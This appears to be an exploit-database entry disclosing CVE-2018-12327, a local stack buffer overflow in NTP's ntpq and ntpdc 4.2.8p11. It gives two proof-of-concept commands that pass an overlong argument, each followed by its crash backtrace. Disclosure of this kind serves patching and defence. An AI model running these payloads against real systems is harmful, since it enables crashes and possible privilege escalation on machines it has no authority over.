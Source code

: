 Exploit Title: ntpq and ntpdc 4.2.8p11 Local Buffer Overflow<br>
Date: 2018-06-06<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: http://www.ntp.org/<br>
Software Link: http://www.ntp.org/downloads.html<br>
Version: 4.2.8p11 and earlier<br>
Tested on: 4.2.8p11<br>
CVE : CVE-2018-12327<br>
<br>
Stack-based buffer overflow in ntpq and ntpdc of NTP version 4.2.8p11 allows a local attacker to achieve code execution or escalate to higher privileges via a long string as the argument for an IPv4 or IPv6 command-line parameter.<br>
<br>
$ ./ntpq -4 [`python -c 'print "A" * 300’`]<br>
<br>
#0 0x562fcada86ce in openhost /home/user/ntp-4.2.8p11/ntpq/ntpq.c:655:12<br>
#1 0x562fcada5f2a in ntpqmain /home/user/ntp-4.2.8p11/ntpq/ntpq.c:606:10<br>
#2 0x562fcada4729 in main /home/user/ntp-4.2.8p11/ntpq/ntpq.c:469:9<br>
#3 0x7f79b684982f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291<br>
#4 0x562fcac96d88 in _start (/home/user/ntp-4.2.8p11/ntpq/ntpq+0xacd88)<br>
<br>
$ ./ntpdc -4 [`python -c 'print "A" * 300'`]<br>
<br>
#0 0x55f726641efe in openhost /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:413:12<br>
#1 0x55f7266400d4 in ntpdcmain /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:365:10<br>
#2 0x55f72663f269 in main /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:255:9<br>
#3 0x7f0fc632382f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291<br>
#4 0x55f7265362d8 in _start (/home/user/ntp-4.2.8p11/ntpdc/ntpdc+0x9d2d8)<br>

